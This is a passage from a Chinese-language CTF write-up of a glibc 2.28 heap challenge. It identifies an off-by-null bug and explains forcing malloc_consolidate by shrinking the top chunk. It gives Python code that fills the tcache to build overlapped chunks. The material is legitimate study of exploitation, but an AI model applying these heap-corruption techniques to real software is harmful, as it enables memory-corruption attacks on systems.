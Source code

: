 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010a31e1504717b5bf.png)

#### <a class="reference-link" name="update"></a>update

更新chunk内容，这里存在off_by_null漏洞

[![](https://p0.ssl.qhimg.com/t01dba3e3f79c347a11.png)](https://p0.ssl.qhimg.com/t01dba3e3f79c347a11.png)

#### <a class="reference-link" name="%E5%B0%8F%E5%A7%BF%E5%8A%BF"></a>小姿势

我们上一篇文章中通过scanf输入长字符串，申请large chunk来调用malloc_consolidate()来合并fastbin中chunk，这一片文章中没有类似的函数，那么要怎么利用呢？

[![](https://p4.ssl.qhimg.com/t01fffbd0873777c898.png)](https://p4.ssl.qhimg.com/t01fffbd0873777c898.png)

看师傅们的放出来的wp里面是通过改写top chunk的size，使其足够小的时候，再malloc chunk便会触发malloc_consolidate()函数合并fastbin，这个姿势我回头看了看2018-hctf-heapstorm，也是可以起作用的，不知道是不是出题的师傅用非预期解解出了这道题目，然后出了一道新题目。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%85%B7%E4%BD%93%E6%B5%81%E7%A8%8B"></a>利用具体流程

环境：glibc 2.28-0ubuntu1

参考了matshao][师傅的文章，里面介绍了一种通用的姿势。](http://matshao.com/2019/03/28/Babayheap-2019/)

#### <a class="reference-link" name="%E6%9E%84%E9%80%A0overlapped%20chunk"></a>构造overlapped chunk

因为开启了tcache的机制，所以想要在fastbin中合并chunk首先要填满tcache。

```
#shrink the top chunk size and fill up the tcache.
for i in range(7):
    add(0x58)
    edit(i,0x58,'a'*0x58)
for i in range(7):
    delete(i)

for i in range(7):
    add(0x48)
    edit(i,0x48,'a'*0x48)
for i in range(7):
    delete(i)

for i in range(7):
    add(0x38)
    edit(i,0x38,'a'*0x38)
for i in range(7):
    delete(i)
#now the top_chunk size is 0x900
```
